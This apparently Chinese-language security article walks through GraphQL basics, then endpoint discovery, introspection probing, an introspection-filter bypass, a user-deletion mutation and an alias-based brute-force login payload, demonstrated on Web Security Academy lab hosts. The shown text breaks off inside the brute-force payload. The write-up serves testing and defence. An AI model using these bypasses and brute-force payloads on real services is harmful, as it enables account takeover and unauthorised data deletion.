




# Graphql 接口安全问题浅析 - 先知社区

Graphql 接口安全问题浅析

- - -

### 文章前言

GraphQL 是一种用于构建 API 的查询语言和运行时环境，它提供了一种灵活且高效的方式来获取和修改数据，随着 GraphQL 的流行和广泛采用，我们也需要认识到与其相关的安全问题和挑战，本文将概述 GraphQL 的安全问题并提供实用的建议和最佳实践以帮助开发人员和系统管理员确保他们的 GraphQL 实现在安全性方面得到充分保护，包括一些常见安全漏洞以及如何通过正确的配置和安全措施来减轻这些风险

### 基本介绍

GraphQL 是一个为 API 通信设计的查询语言，它于 2015 年由 Facebook 开发并在 2018 年成为开放源代码项目，相比于传统的 RESTful API，GraphQL 提供了更灵活、高效和精确的数据查询和操作方式，它没有和任何特定数据库或者存储引擎绑定，而是依靠现有的代码和数据支撑

### 核心组成

GraphQL 的核心组成部分包括以下几个方面：

-   查询语言 (Query Language)：GraphQL 引入了一种灵活的查询语言，用于描述客户端对数据的需求，这种查询语言具有清晰的语法结构，允许客户端精确地指定所需的字段和关联关系并可以进行嵌套和别名操作，查询语言是与 GraphQL 交互的主要方式
-   类型系统 (Type System)：GraphQL 使用类型系统来定义 API 的数据结构，类型系统允许开发人员定义对象类型、标量类型 (例如：字符串、整数、布尔值等) 和枚举类型并定义它们之间的关系，通过类型系统 GraphQL 能够在编译时检查查询的正确性并提供自动完成和文档生成等功能
-   解析器 (Resolver)：解析器是 GraphQL 的执行引擎中的关键组件，它负责将查询请求映射到相应的数据源并从数据源中提取所需的数据，解析器可以是针对特定数据源的自定义逻辑也可以是与现有数据层 (例如：数据库) 进行交互的逻辑，解析器的任务是根据查询的要求从数据源中获取数据并返回给客户端
-   GraphQL 端点 (GraphQL Endpoint)：GraphQL 端点是客户端与 GraphQL API 进行交互的入口点，客户端通过向 GraphQL 端点发送查询请求并获取所需的数据，GraphQL 端点是一个 HTTP 接口，接收查询请求并将其传递给执行引擎进行处理，通常 GraphQL 端点是应用程序的一个特定 URL，用于处理所有与 GraphQL 相关的请求
-   执行引擎 (Execution Engine)：执行引擎是 GraphQL 的核心组件，负责解析和执行查询请求，它接收客户端发送的查询请求并根据查询语言和类型系统的定义，逐步执行解析器来获取所需的数据，执行引擎将查询结果组装成一个响应并返回给客户端

### 数据结构

GraphQL 定义了一组基本数据类型用于描述 API 的数据结构，这些基本数据类型包括标量类型 (Scalar Types) 和复杂类型 (Complex Types)

#### 标量类型 (Scalar Types)

-   Int：表示整数类型的数据，例如：42
-   Float：表示浮点数类型的数据，例如：3.14
-   Boolean：表示布尔类型的数据，取值为 true 或 false
-   String：表示字符串类型的数据，例如："Hello, World!"
-   ID：表示唯一标识符类型的数据，通常用于唯一标识对象或实体

#### 枚举类型 (Enum Types)

枚举类型用于定义一组可能的取值，客户端只能从预定义的取值中选择，示例：

```plain
enum Role { USER, ADMIN, MODERATOR }
```

#### 列表类型 (List Types)

列表类型表示一组具有相同类型的数据，在 GraphQL 查询中可以使用中括号\[\]来表示，示例：

```plain
[Int] 表示整数类型的列表
```

#### 非空类型 (Non-Null Types)

非空类型表示字段或参数不能为空，使用感叹号"!"来标记，示例：

```plain
String! 表示字符串类型的字段或参数不能为空
```

#### 对象类型 (Object Types)

对象类型表示具有一组字段的复杂类型，可以嵌套其他对象类型或标量类型，示例

```plain
type User {
  id: ID!
  name: String
  age: Int
}
```

#### 输入类型 (Input Types)

输入类型用于表示作为参数传递给变更操作的数据结构可以包含标量类型、枚举类型或其他输入类型，示例：

```plain
input CreateUserInput {
  name: String!
  age: Int
}
```

### 操作类型

GraphQL 的主要操作包括查询 (Query)、变更 (Mutation) 和订阅 (Subscription)，客户端通过 Query 从 Service 获取数据，通过 Mutation 向 Service 发起变更操作，通过 Subscription 向 Service 发起订阅请求并建立套接字链接，监听相关数据的变更

#### 查询 (Query)

查询是用于获取数据的操作，类似于传统的 GET 请求，通过查询操作，客户端可以指定需要获取的字段和关联关系并从服务器获取相应的数据，示例代码如下：

```plain
query {
  user(id: "123") {
    name
    age
    posts {
      title
      content
    }
  }
}
```

#### 变更 (Mutation)

变更是用于修改数据的操作，相当于传统的 POST、PUT 或 DELETE 请求，通过变更操作，客户端可以向服务器发送数据并修改或创建相应的资源，示例代码如下所示：

```plain
mutation {
  createUser(input: { name: "John", age: 25 }) {
    id
    name
    age
  }
}
```

#### 订阅 (Subscription)

订阅是用于实时获取数据更新的操作，类似于 WebSocket，通过订阅操作客户端可以订阅特定的事件或数据源并在事件发生或数据更新时接收相应的通知，示例代码如下所示：

```plain
subscription {
  newPost {
    title
    content
    author {
      name
    }
  }
}
```

#### 内省查询

GraphQL 的内省查询是一种用于获取 GraphQL 服务端提供的模式信息的特殊查询，通过内省查询客户端可以动态地查询和探索 GraphQL 模式，了解可用的类型、字段、关联和其他模式相关的元数据，GraphQL 的内省查询使用特殊的元字段**schema 和**type 来执行，下面是对 GraphQL 内省查询的详细介绍和示例  
通过\_\_schema 查询所有可用对象：

```plain
{
  __schema {
    types {
      name
    }
  }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151131-4600bdea-cfbf-1.png)

通过\_\_type 查询指定对象的所有字段：

```plain
{
  __type(name: "Film") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151152-526ce860-cfbf-1.png)

### 服务发现

在我们对网站进行安全评估时我们可以多多注意下列路径，这将有助于我们发现关联的接口来确定目标站点支持 graphql 的查询方式

```plain
altair
explorer
graphiql
graphiql.css
graphiql/finland
graphiql.js
graphiql.min.css
graphiql.min.js
graphiql.php
graphql
graphql/console
graphql-explorer
graphql.php
graphql/schema.json
graphql/schema.xml
graphql/schema.yaml
playground
subscriptions
api/graphql
graph
v1/altair
v1/explorer
v1/graphiql
v1/graphiql.css
v1/graphiql/finland
v1/graphiql.js
v1/graphiql.min.css
v1/graphiql.min.js
v1/graphiql.php
v1/graphql
v1/graphql/console
v1/graphql-explorer
v1/graphql.php
v1/graphql/schema.json
v1/graphql/schema.xml
v1/graphql/schema.yaml
v1/playground
v1/subscriptions
v1/api/graphql
v1/graph
v2/altair
v2/explorer
v2/graphiql
v2/graphiql.css
v2/graphiql/finland
v2/graphiql.js
v2/graphiql.min.css
v2/graphiql.min.js
v2/graphiql.php
v2/graphql
v2/graphql/console
v2/graphql-explorer
v2/graphql.php
v2/graphql/schema.json
v2/graphql/schema.xml
v2/graphql/schema.yaml
v2/playground
v2/subscriptions
v2/api/graphql
v2/graph
v3/altair
v3/explorer
v3/graphiql
v3/graphiql.css
v3/graphiql/finland
v3/graphiql.js
v3/graphiql.min.css
v3/graphiql.min.js
v3/graphiql.php
v3/graphql
v3/graphql/console
v3/graphql-explorer
v3/graphql.php
v3/graphql/schema.json
v3/graphql/schema.xml
v3/graphql/schema.yaml
v3/playground
v3/subscriptions
v3/api/graphql
v3/graph
v4/altair
v4/explorer
v4/graphiql
v4/graphiql.css
v4/graphiql/finland
v4/graphiql.js
v4/graphiql.min.css
v4/graphiql.min.js
v4/graphiql.php
v4/graphql
v4/graphql/console
v4/graphql-explorer
v4/graphql.php
v4/graphql/schema.json
v4/graphql/schema.xml
v4/graphql/schema.yaml
v4/playground
v4/subscriptions
v4/api/graphql
v4/graph
```

### 安全风险

#### 内省查询

内省是一个内置的 GraphQL 函数，它使您能够向服务器查询有关模式的信息，内省也有助于理解如何与 GraphQL API 交互，它还可能泄露潜在的敏感数据，例如：描述字段，在生产环境中禁用自省是最佳实践，但这一建议并不总是得到遵守，我们可以使用下面的简单查询来探测自省，如果启用了内省，响应将返回所有可用查询的名称

```plain
{
  "query": "{__schema{queryType{name}}}"
}
```

访问博客时，我们在 burpsuite 中可以看到如下请求报文，此时查看 GrpahQL 时会给出查询语句，可以看到这里是"getAllBlogPosts"——获取所有的博客

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151339-924ed38a-cfbf-1.png)

随后我们查看首页的博客的时候会发现这里的 id 序列出现变化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151403-a0648636-cfbf-1.png)

随后我们更改 id 序列值为全部博客中缺少的序列值 3 并重新发送数据包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151421-ab377b4a-cfbf-1.png)

从上面可以看到虽然获取到了 id 为 3 的报文信息，但是这里面并没有对应的密码字段值，随后我们复制请求 URL 并将其在 INFO QL 中进行分析获取到字段值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151438-b5522fda-cfbf-1.png)  
随后在报文中添加字段"postPassword"并重新发送报文，随后获取到了隐藏的密码字段值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151458-c135d112-cfbf-1.png)

这里还有另外一个相似的案例：  
同样的在访问网站时，在 Burpsuite 中可以看到被检测到 GraphQL：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151559-e59da6a6-cfbf-1.png)  
紧接着我们复制此 URL 到 InQL 中进行分析，发现此处存在 getUser 接口，此接口会返回用户的用户名、用户密码等信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151615-ef07f7fa-cfbf-1.png)  
随后发送请求报文到 repeat 模块并更改 id 为 0 进行检索，可以发现此时放回的信息为空  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151634-fa7a70ea-cfbf-1.png)  
随后我们获取到 administrator 的密码信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151654-06c338c8-cfc0-1.png)

### 内省禁用绕过

如果无法为正在测试的 API 运行内省查询，那么我们可以尝试在**schema 关键字之后插入特殊字符，在开发人员禁用内省时，他们可以大多都是通过正则表达式在查询中排除**schema 关键字，我们可以尝试空格、换行和逗号等字符，因为它们被 GraphQL 忽略但不被有缺陷的正则表达式忽略，因此如果开发人员只排除了**schema，那么下面的内省查询将不会被排除**

```plain
{
    "query": "query{__schema
     {queryType{name}}}"
 }
```

如果不起作用则我们可以尝试通过替代请求方法运行探测器，因为内省可能仅在 POST 上被禁用，尝试 GET 请求或内容类型为 x-www-form-urlencoded 的 POST 请求，下面的示例显示了通过 GET 发送的内省探测，带有 URL 编码的参数

```plain
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

在访问站点时在 Repeater 中向一些常见的 GraphQL 端点后缀发送请求并检查结果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151844-47cca408-cfc0-1.png)  
发送/api 请求时提示"Method Not Allowed"

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220151900-519eea9a-cfc0-1.png)

更改请求方法为"GET"并重新发送数据包时会提示"Query not present"错误，这暗示可能有一个 GraphQL 端点响应此位置的 GET 请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152011-7bb42840-cfc0-1.png)  
随后修改请求以包含通用查询，例如：

```plain
/api?query=query{__typename}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152038-8c24a272-cfc0-1.png)  
从上面可以看到这里不允许 POST 请求，所以我们直接更改请求方法为 GET

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152057-97414cc8-cfc0-1.png)

随后使用 URL 编码的自省查询作为查询参数发送新请求

```plain
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152124-a77be1c0-cfc0-1.png)

从回显内容中可以看到这里不允许内省，修改查询以在\_\_schema 后包含换行符并重新发送，例如：

```plain
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152200-bce8873e-cfc0-1.png)  
从上面可以看到响应现在包含了完整的内省细节，这是因为服务器被配置为排除与 regex "**schema{"匹配的查询，该查询不再匹配，即使它仍然是有效的内省查询，随后我们保存响应报文的内容并使用 InQL 加载文件进行解析操作，可以获取到用户删除操作接口**：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152221-c946f952-cfc0-1.png)

查询用户信息的接口：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152234-d157bd7a-cfc0-1.png)  
根据用户 ID 信息检索用户，ID 为 1 时，用户为 administrator

```plain
GET /api?query=%71%75%65%72%79%20%7b%0a%20%20%20%20%67%65%74%55%73%65%72%28%69%64%3a%20%31%29%20%7b%0a%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%75%73%65%72%6e%61%6d%65%0a%20%20%20%20%7d%0a%7d HTTP/1.1
Host: 0afd00740480738384c5fe6e000400e8.web-security-academy.net
Cookie: session=Y9LKsJElXvfb0KwEWslV81d8JZACigJx
Sec-Ch-Ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afd00740480738384c5fe6e000400e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152259-dfee9e80-cfc0-1.png)

id 为 3 时用户为 carlos

```plain
GET /api?query=%71%75%65%72%79%20%7b%0a%20%20%20%20%67%65%74%55%73%65%72%28%69%64%3a%20%33%29%20%7b%0a%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%75%73%65%72%6e%61%6d%65%0a%20%20%20%20%7d%0a%7d HTTP/1.1
Host: 0afd00740480738384c5fe6e000400e8.web-security-academy.net
Cookie: session=Y9LKsJElXvfb0KwEWslV81d8JZACigJx
Sec-Ch-Ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afd00740480738384c5fe6e000400e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152331-f318bbe4-cfc0-1.png)

随后调用接口进行删除用户的操作

```plain
%6d%75%74%61%74%69%6f%6e%20%7b%0a%20%20%20%20%64%65%6c%65%74%65%4f%72%67%61%6e%69%7a%61%74%69%6f%6e%55%73%65%72%28%69%6e%70%75%74%3a%20%7b%69%64%3a%33%7d%29%20%7b%0a%20%20%20%20%20%20%20%20%75%73%65%72%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%7d%0a%7d
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152400-046dcb8c-cfc1-1.png)  
此时进行查询操作会显示如下信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152442-1daf3f04-cfc1-1.png)

#### 别名绕过

GraphQL 对象不能包含同名的多个属性，别名使您能够通过显式命名希望 API 返回的属性来绕过此限制，您可以使用别名在一个请求中返回同一类型对象的多个实例，虽然别名旨在限制需要进行的 API 调用的数量，但它们也可以用于强制 GraphQL 端点，许多端点将有某种速率限制以防止暴力攻击，一些速率限制器的工作基于接收到的 HTTP 请求的数量，而不是在端点上执行的操作的数量，因为别名有效地使您能够在单个 HTTP 消息中发送多个查询，所以它们可以绕过此限制，下面的简化示例显示了一系列别名查询，这些查询检查商店折扣代码是否有效，此操作可能会绕过速率限制，因为它是一个 HTTP 请求，即使它可能会被用于同时检查大量折扣代码

```plain
query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```

访问网站的同时在 Burpsuite 中可以看到此时的用户登录凭据是通过 graphql 的方式进行提交的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152606-4f578494-cfc1-1.png)

在发送多个请求之后会看到频次限制的提示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220152627-5c0b7d80-cfc1-1.png)

随后我们在 GraphQL 选项卡中创建一个请求，该请求使用别名在一条消息中发送多个登录，构建请求时请记住以下几点：

-   别名列表包含在{}类型中
-   每个别名都应该具有用户名 carlos 和与身份验证列表不同的密码
-   如果要修改发送给 Repeater 的请求，请在发送之前从请求中删除变量 dictionary 和 operationName 字段
-   您可以从 Repeater 的 Pretty 选项卡执行此操作

确保每个别名都请求 success 字段，如下面的简化示例所示：

```plain
mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }

          bruteforce1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }

          ...

          bruteforce99:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
    }
```

这里我们使用靶场提供的载荷：

```plain
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220153013-e2e4a9ee-cfc1-1.png)  
在浏览器一侧进行一个简单的构造：

```plain
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }


bruteforce4:login(input:{password: "123456789", username: "carlos"}) {
        token
        success
    }


bruteforce5:login(input:{password: "12345", username: "carlos"}) {
        token
        success
    }


bruteforce6:login(input:{password: "1234", username: "carlos"}) {
        token
        success
    }


bruteforce7:login(input:{password: "111111", username: "carlos"}) {
        token
        success
    }


bruteforce8:login(input:{password: "1234567", username: "carlos"}) {
        token
        success
    }


bruteforce9:login(input:{password: "dragon", username: "carlos"}) {
        token
        success
    }


bruteforce10:login(input:{password: "123123", username: "carlos"}) {
        token
        success
    }


bruteforce11:login(input:{password: "baseball", username: "carlos"}) {
        token
        success
    }


bruteforce12:login(input:{password: "abc123", username: "carlos"}) {
        token
        success
    }


bruteforce13:login(input:{password: "football", username: "carlos"}) {
        token
        success
    }


bruteforce14:login(input:{password: "monkey", username: "carlos"}) {
        token
        success
    }


bruteforce15:login(input:{password: "letmein", username: "carlos"}) {
        token
        success
    }


bruteforce16:login(input:{password: "shadow", username: "carlos"}) {
        token
        success
    }


bruteforce17:login(input:{password: "master", username: "carlos"}) {
        token
        success
    }


bruteforce18:login(input:{password: "666666", username: "carlos"}) {
        token
        success
    }


bruteforce19:login(input:{password: "qwertyuiop", username: "carlos"}) {
        token
        success
    }


bruteforce20:login(input:{password: "123321", username: "carlos"}) {
        token
        success
    }


bruteforce21:login(input:{password: "mustang", username: "carlos"}) {
        token
        success
    }


bruteforce22:login(input:{password: "1234567890", username: "carlos"}) {
        token
        success
    }


bruteforce23:login(input:{password: "michael", username: "carlos"}) {
        token
        success
    }


bruteforce24:login(input:{password: "654321", username: "carlos"}) {
        token
        success
    }


bruteforce25:login(input:{password: "superman", username: "carlos"}) {
        token
        success
    }


bruteforce26:login(input:{password: "1qaz2wsx", username: "carlos"}) {
        token
        success
    }


bruteforce27:login(input:{password: "7777777", username: "carlos"}) {
        token
        success
    }


bruteforce28:login(input:{password: "121212", username: "carlos"}) {
        token
        success
    }


bruteforce29:login(input:{password: "000000", username: "carlos"}) {
        token
        success
    }


bruteforce30:login(input:{password: "qazwsx", username: "carlos"}) {
        token
        success
    }


bruteforce31:login(input:{password: "123qwe", username: "carlos"}) {
        token
        success
    }


bruteforce32:login(input:{password: "killer", username: "carlos"}) {
        token
        success
    }


bruteforce33:login(input:{password: "trustno1", username: "carlos"}) {
        token
        success
    }


bruteforce34:login(input:{password: "jordan", username: "carlos"}) {
        token
        success
    }


bruteforce35:login(input:{password: "jennifer", username: "carlos"}) {
        token
        success
    }


bruteforce36:login(input:{password: "zxcvbnm", username: "carlos"}) {
        token
        success
    }


bruteforce37:login(input:{password: "asdfgh", username: "carlos"}) {
        token
        success
    }


bruteforce38:login(input:{password: "hunter", username: "carlos"}) {
        token
        success
    }


bruteforce39:login(input:{password: "buster", username: "carlos"}) {
        token
        success
    }


bruteforce40:login(input:{password: "soccer", username: "carlos"}) {
        token
        success
    }


bruteforce41:login(input:{password: "harley", username: "carlos"}) {
        token
        success
    }


bruteforce42:login(input:{password: "batman", username: "carlos"}) {
        token
        success
    }


bruteforce43:login(input:{password: "andrew", username: "carlos"}) {
        token
        success
    }


bruteforce44:login(input:{password: "tigger", username: "carlos"}) {
        token
        success
    }


bruteforce45:login(input:{password: "sunshine", username: "carlos"}) {
        token
        success
    }


bruteforce46:login(input:{password: "iloveyou", username: "carlos"}) {
        token
        success
    }


bruteforce47:login(input:{password: "2000", username: "carlos"}) {
        token
        success
    }


bruteforce48:login(input:{password: "charlie", username: "carlos"}) {
        token
        success
    }


